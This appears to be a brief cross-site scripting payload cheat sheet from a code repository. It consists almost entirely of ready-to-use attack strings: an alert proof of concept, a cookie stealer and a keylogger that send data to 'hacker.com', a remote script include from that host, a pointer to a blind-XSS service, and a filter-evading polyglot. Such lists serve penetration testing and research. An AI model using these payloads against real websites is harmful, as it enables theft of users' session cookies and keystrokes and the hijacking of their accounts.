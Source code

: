 # Cross Site Scripting
 
#### Generic proof of concept payload  
`<script>alert(document.domain);</script>`

#### Cookie stealer  
`<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>`

#### Key logger  
`<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>`

#### External hacker-controlled script execution  
`<script src='http://hacker.com/evil.js'></script>`  

### Blind XSS
`https://xsshunter.com/`  

### Polyglots
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e``

